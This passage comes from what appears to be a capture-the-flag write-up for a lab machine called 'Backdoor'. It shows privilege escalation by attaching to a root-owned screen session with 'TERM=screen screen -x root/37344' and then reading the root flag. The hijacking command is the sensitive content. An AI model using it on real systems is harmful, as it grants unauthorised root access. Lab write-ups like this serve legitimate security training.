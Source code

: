It complains about a missing terminal type. That’s typically set in an environment variable. I’ll add that to the front of the command, and on running `TERM=screen screen -x root/37344`, I’m dropped into a `screen` session as root:

```

root@Backdoor:~#                                                                

```

It also works using the `[user]/[session name]`, so in this case, `TERM=screen screen -x root/root`.

I can read `root.txt`:

```

root@Backdoor:~# cat root.txt
499d4ef0************************

```

[Parallelizing Bash and Python »](/2022/04/24/parallelizing-in-bash-and-python.html)